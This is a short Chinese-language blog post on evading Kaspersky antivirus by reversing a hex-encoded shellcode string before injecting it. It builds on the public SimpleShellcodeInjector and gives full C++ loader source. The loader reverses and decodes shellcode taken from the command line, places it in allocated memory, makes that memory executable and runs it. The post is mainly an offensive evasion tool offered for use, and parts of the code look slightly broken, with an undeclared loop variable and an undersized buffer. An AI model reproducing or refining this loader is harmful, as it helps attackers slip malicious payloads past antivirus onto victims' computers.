 # 翻转字符串绕卡巴斯基

## 简介

我也不想写什么花里胡哨的东西，就让我水一篇吧。

就继续延用这玩意把[SimpleShellcodeInject](https://github.com/DimopoulosElias/SimpleShellcodeInjector)，我还挺喜欢用这种shellcode传入方式的，让我们在这个基础上添加功能吧。

为了节省我们的时间就随便加一个能自动化实现的shellcode混淆方式\(偷懒，手动狗头\)，就直接添加一个字符串翻转吧。

直接python一行代码翻转字符串。

## 思路

![](../.gitbook/assets/image%20%28145%29.png)

## 代码

```text
// hex.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"




int main(int argc, char* argv[]) {

    char *str = argv[1];
    

    unsigned int char_in_hex;
    
    unsigned int iterations = strlen(str);
    unsigned int memory_allocation = strlen(str) / 2;

    char* temp = (char*)VirtualAlloc(0, memory_allocation, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    int p = 0;

    for (int i = strlen(str) - 1; i >= 0; i--)
    {
        temp[p++] = str[i];
    }

    char* shellcode = (char*)temp;

    for (i = 0; i < iterations - 1; i++) {
        sscanf(shellcode + 2 * i, "%2X", &char_in_hex);
        shellcode[i] = (char)char_in_hex;
    }


    void* exec = VirtualAlloc(0, memory_allocation, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    memcpy(exec, shellcode, memory_allocation);
    VirtualProtect(exec, memory_allocation, PAGE_EXECUTE, NULL);

    (*(void (*WINAPI)()) exec)();

    return 0;
}

```

